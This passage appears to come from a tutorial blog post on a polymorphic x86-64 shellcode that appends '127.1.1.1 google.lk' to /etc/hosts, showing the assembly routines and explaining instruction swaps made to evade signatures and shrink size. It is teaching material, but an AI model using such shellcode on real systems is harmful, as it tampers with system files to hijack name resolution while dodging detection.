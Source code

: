     ; invoke the syscall write
    inc eax

    ; use the JMP-POP-CALL syscall to get the address
    ; of the new host entry into RSI
    jmp Data

RetrieveEntryPointer:

    ; get the address of the host entry
    mov rsi, QWORD [rsp]

    ; invoke syscall write
    syscall
    
; Some routines are omitted for clarity
    
Data:

    call RetrieveEntryPointer
    text db '127.1.1.1 google.lk'</code></pre><figcaption>Append the host entry to <code>/etc/hosts</code></figcaption></figure><p>Instead of using the instruction <code>XCHG</code> I chose the simple <code>PUSH</code> and <code>POP</code> method to save the file descriptor in the <code>RDI</code> register .</p><p>After that, I used <code>CDQ</code> (Convert Double to Quad) to clear the <code>RDX</code> register. Rather than using the <code>ADD</code> instruction (to increase <code>RAX</code>) I simply used <code>INC</code>.</p><p>Finally, I changed a bit the <code>JMP-POP-CALL</code> technique. Instead of the <code>CALL</code> instruction I used <code>MOV</code>. After all, if there are no other values on the stack, then you don't really have to use <code>POP</code>.</p><h3 id="cleaning-up">Cleaning up</h3><p>The last two routines close the file descriptor of the file <code>/etc/hosts</code>, opened previously with <code>sys_open</code> and terminate the execution of the shellcode with <code>sys_exit</code>.</p><figure class="kg-card kg-code-card"><pre><code class="language-nasm">CloseFile:

    ; invoke syscall close
    xor eax, eax
    mov al, 3
    syscall

Exit:

    ; invoke syscall exit
    xor eax, eax
    add al, 195
    not eax
    syscall </code></pre><figcaption>Cleaning routines</figcaption></figure><p>If you care about the size of your shellcode, then you could also remove them to save about 14 bytes.</p><p>In the end, the polymorphic code occpies 102 bytes, which is 8 bytes less than the original code.</p>